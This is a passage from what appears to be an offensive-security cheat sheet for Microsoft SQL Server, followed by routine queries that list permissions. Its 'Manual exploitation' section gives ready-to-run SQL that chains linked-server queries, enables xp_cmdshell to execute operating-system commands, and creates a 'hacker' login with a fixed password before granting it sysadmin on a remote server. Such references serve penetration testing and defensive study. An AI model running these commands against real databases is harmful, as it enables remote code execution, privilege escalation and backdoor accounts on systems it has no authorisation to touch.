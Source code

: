 Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## MSSQL Privileges

### MSSQL List Permissions

* Listing effective permissions of current user on the server.

    ```sql
    SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
    ```

* Listing effective permissions of current user on the database.

    ```sql
    SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
    ```

* Listing effective permissions of current user on a view.

    ```sql
    SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
    ```

* Check if current user is a member of the specified server role.

    ```sql
    -- possible roles: sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
    SELECT is_srvrolemember('sysadmin');
    ```
